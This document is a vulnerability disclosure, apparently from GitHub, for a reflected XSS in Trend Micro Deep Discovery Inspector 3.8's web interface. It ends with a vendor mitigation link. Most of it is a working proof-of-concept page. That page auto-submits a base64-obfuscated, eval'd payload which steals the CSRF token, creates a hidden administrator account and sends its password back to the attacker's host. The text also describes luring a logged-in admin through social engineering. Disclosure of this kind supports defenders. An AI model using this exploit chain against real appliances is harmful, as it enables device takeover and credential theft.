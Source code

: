 Reflected XSS in Deep Discovery Inspector 3.8
====

I've found a reflected XSS vulnerability in the management web interface of Deep Discovery Inspector 3.8 Service Pack 5 Build: 3.85.1165
Vulnerable script path is /php/detection_detail_filter.php. This script is accessible only by an authenticated user, but this does not make vulnerabilty less serious, considering the attack scenario that follows below.

# The following POST request payload trigers javascript code execution:
https://PASTE_DDI_IP_HERE/php/detection_detail_filter.php?ips%5B%5D=217.69.139.245%3A80<img src=/ onerror=alert(1) /img>

Screen1.png confirms that ips[] parameter is vulnerable to html code injection.

# Impact:
This vulnerability can be used bypass CSRF protection, obtain CSRF token and successfulty conduct CSRF attack. Even complete takeover of the Deep Discovery Inspector aplliance may be accomplished using the following scenario:

    1. User logged into the DDI web interface is inticed to visit malicius web page. 
    2. Malicious script on this page is launched using the XSS vulnerabilty in /php/detection_detail_filter.php
    3. The script is getting CSRF token vip PUT request to /wsgi/csrf/get_token/
    4. And then it uses the token obtained from the response to the prevoius request to add an account with administrator privileges
    5. The password for the added account is obtained from response to the previous request.
    6. Password can be transfered to attackers host via http request

Screen2.png shows the attack in action.

To reporduce the attack, you may use the following piece of code(ddi_ip variable should be changed acording to your DDI appliance's IP):

    <b>DDI PoC</b>
    <script type="text/javascript">

    function post(path, params, method) {
        method = method || "post"; // Set method to post by default if not specified.

        // The rest of this code assumes you are not using a library.
        // It can be made less wordy if you use one.
        var form = document.createElement("form");
        form.setAttribute("method", 'POST');
        form.setAttribute("action", path);

        for(var key in params) {
            if(params.hasOwnProperty(key)) {
                var hiddenField = document.createElement("input");
                hiddenField.setAttribute("type", "hidden");
                hiddenField.setAttribute("name", key);
                hiddenField.setAttribute("value", params[key]);

                form.appendChild(hiddenField);
             }
        }

        document.body.appendChild(form);
        form.submit();
    }

    var ddi_ip = '192.168.91.66';

    post('https:///'+ddi_ip+'/php/detection_detail_filter.php', {'ips[]':'217.69.139.245:8<img src=/ onerror=;eval(atob(\'dmFyIG1pbWVUeXBlID0gImFwcGxpY2F0aW9uL2pzb24iOwp2YXIgdXJsID0gJ2h0dHBzOi8vJytsb2NhdGlvbi5ob3N0bmFtZSsnL3dzZ2kvY3NyZi9nZXR
    fdG9rZW4vJzsKcGF5bG9hZDEgPSAneyJhY3QiOiAiZ2V0In0nO3ZhciB4aHIgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTsKeGhyLm9ucmVhZHlzdGF0ZWNoYW5nZSA9IGZ1bmN0aW9uKCkgCgl7IGlmICh4aHIucmVhZHlTdGF0ZSA9PSBYTUxIdHRwUmVxdWVzdC5ET05FKSAKCQl7IHZhciBqc29uUmVzcG9uc2UgPSBK
    U09OLnBhcnNlKHhoci5yZXNwb25zZVRleHQpOwoJCSAgdmFyIHBheWxvYWQyID0geyJjc3JmIjogIiIgKyBqc29uUmVzcG9uc2UuY3NyZiArICIiICwgInVzZXJfbmFtZSI6ICJ0ZXN0YWRtMiIsInR5cGUiOiAwLCAiZW5hYmxlZCI6MSwgInJlc29sdl9kZXRlY3Rpb24iOjAgfTsKCQkgIHZhciB1cmwyPSdodHRwc
    zovLycrbG9jYXRpb24uaG9zdG5hbWUrJy93c2dpL3VzZXJfbWFuYWdlL2FkZF91c2VyJzsgCgkJICB4aHIub3BlbignUE9TVCcsIHVybDIsIGZhbHNlKTsKCQkgIHhoci5zZXRSZXF1ZXN0SGVhZGVyKCdDb250ZW50LVR5cGUnLCBtaW1lVHlwZSk7CgkJICB4aHIub25yZWFkeXN0YXRlY2hhbmdlID0gZnVuY3Rpb2
    4oKSB7CgkJICAJICAgIGlmICh4aHIucmVhZHlTdGF0ZSA9PSBYTUxIdHRwUmVxdWVzdC5ET05FKSB7CgkJCSAgCQl2YXIganNvblJlc3BvbnNlID0gSlNPTi5wYXJzZSh4aHIucmVzcG9uc2VUZXh0KTsKCQkJICAJCXZhciBsZWFrX3VybCA9IGRvY3VtZW50LnJlZmVycmVyKyc/Jytqc29uUmVzcG9uc2UuZGF0YTs
    KCQkJICAJCXZhciB4bWxIdHRwID0gbmV3IFhNTEh0dHBSZXF1ZXN0KCk7CgkJCQkgICAgeG1sSHR0cC5vcGVuKCAiR0VUIiwgbGVha191cmwsIGZhbHNlICk7CgkJCQkgICAgeG1sSHR0cC5zZW5kKCBudWxsICk7CgkJICAJICAgIH0KCQkgIH0KCQkgIHhoci5zZW5kKEpTT04uc3RyaW5naWZ5KHBheWxvYWQyKSk7
    IH0gCgl9OyAgIAp4aHIub3BlbignUFVUJywgdXJsLCB0cnVlKTsKeGhyLnNldFJlcXVlc3RIZWFkZXIoJ0NvbnRlbnQtVHlwZScsIG1pbWVUeXBlKTsKeGhyLnNlbmQocGF5bG9hZDEpOw==\')) />'});

    </script>

This PoC code should be placed on attackers web server, and a link to this server should be opened by user(with admin permissions) logged in to DDI web interface. User may be enticed into clicking the link with the use of social engineering.


# Mitigation:
Trend Micro has provided the following solution:
https://success.trendmicro.com/solution/1121079

